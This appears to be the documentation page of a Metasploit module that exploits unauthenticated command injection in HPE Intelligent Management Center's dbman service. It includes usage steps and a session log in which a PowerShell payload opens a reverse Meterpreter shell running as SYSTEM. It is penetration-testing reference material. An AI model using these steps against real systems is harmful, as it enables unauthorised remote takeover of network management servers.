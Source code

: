 ## Description

  This module exploits a remote command execution vulnerablity in Hewlett Packard Enterprise Intelligent Management Center before version 7.3 E0504P04.

  The dbman service allows unauthenticated remote users to restart a user-specified database instance (OpCode 10008), however the instance ID is not sanitized, allowing execution of arbitrary operating system commands as SYSTEM. This service listens on TCP port 2810 by default.


## Vulnerable Application

  [HPE Intelligent Management Center Enterprise Software Platform](https://www.hpe.com/au/en/product-catalog/networking/intelligent-management-software/pip.hp-intelligent-management-center-enterprise-software-platform.4176520.html) is a comprehensive wired and wireless network management tool.

  This module has been tested successfully on:

  * iMC PLAT v7.2 (E0403) on Windows 7 SP1 (EN).

  Installer:

  * [iMC PLAT v7.2 (E0403) Standard](https://h10145.www1.hpe.com/Downloads/DownloadSoftware.aspx?SoftwareReleaseUId=16759&ProductNumber=JG747AAE&lang=en&cc=us&prodSeriesId=4176535&SaidNumber=)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/windows/misc/hp_imc_dbman_restartdb_unauth_rce`
  3. Do: `set RHOST <IP>`
  4. Do: `run`
  5. You should get a session


## Scenarios

  ```
  msf > use exploit/windows/misc/hp_imc_dbman_restartdb_unauth_rce 
  msf exploit(windows/misc/hp_imc_dbman_restartdb_unauth_rce) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(windows/misc/hp_imc_dbman_restartdb_unauth_rce) > check
  [*] 172.16.191.166:2810 The target service is running, but could not be validated.
  msf exploit(windows/misc/hp_imc_dbman_restartdb_unauth_rce) > set verbose true
  verbose => true
  msf exploit(windows/misc/hp_imc_dbman_restartdb_unauth_rce) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] 172.16.191.166:2810 - Powershell command length: 6091
  [*] 172.16.191.166:2810 - Sending payload (6091 bytes)...
  [*] Sending stage (179779 bytes) to 172.16.191.166
  [*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.166:55316) at 2018-01-05 03:23:55 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : WIN-SGBSD5TQUTQ
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 3
  Meterpreter     : x86/windows
  ```

